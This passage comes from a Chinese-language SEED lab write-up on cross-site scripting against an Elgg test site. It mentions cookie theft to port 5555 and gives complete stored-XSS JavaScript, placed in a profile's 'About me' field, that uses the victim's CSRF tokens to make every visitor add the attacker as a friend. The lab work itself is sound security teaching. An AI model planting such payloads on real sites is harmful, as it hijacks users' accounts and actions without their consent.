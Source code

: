 ![image](https://user-images.githubusercontent.com/64548919/206890711-4ca1e05f-23e5-4553-bd52-ab03635b2863.png)

从下面两图可以看到，alert中显示得到的cookie和5555端口接收到的cookie内容是一致的。

![image](https://user-images.githubusercontent.com/64548919/206890739-3d1a7b3b-2c31-43c1-a52e-f7f113292b22.png)

![image](https://user-images.githubusercontent.com/64548919/206890747-a1144313-a4b5-4a04-af52-ca53803e56ae.png)

### 3.5 Task 4: Becoming the Victim’s Friend

先用网页端加Samy为好友，使用F12查看请求包：


![image](https://user-images.githubusercontent.com/64548919/206893921-bd8c296f-dab9-4ec9-b6c4-0e55accb8e23.png)

URL是`http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1670778001&__elgg_token=M2vpX8j6LDtTCGo4nZMhvg&__elgg_ts=1670778001&__elgg_token=M2vpX8j6LDtTCGo4nZMhvg`

可以得到Samy的ID是47，ts是1670778001，token是M2vpX8j6LDtTCGo4nZMhvg。

因此js代码即为：

```JavaScript
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
   	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
	//Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47"+ts+token;
	//Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Host","www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}
</script>
```

放入Samy的About me中

![image](https://user-images.githubusercontent.com/64548919/206895318-139b793b-e1f0-419f-8eb3-edac704c09e1.png)

我先后使用Samy和Boby访问Samy的页面，可以得到自动添加好友的消息。

![image](https://user-images.githubusercontent.com/64548919/206895244-44aa4f1d-23b7-43d7-bec5-2fecedcbb309.png)

接下来回答一下两个问题。

Q1: Explain the purpose of Lines ➀ and ➁, why are they are needed?

A1: 他们的功能是为了鉴权，识别具体是哪一个用户执行添加好友的申请。

Q2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e. you cannot switch to the Text mode, can you still launch a successful attack?

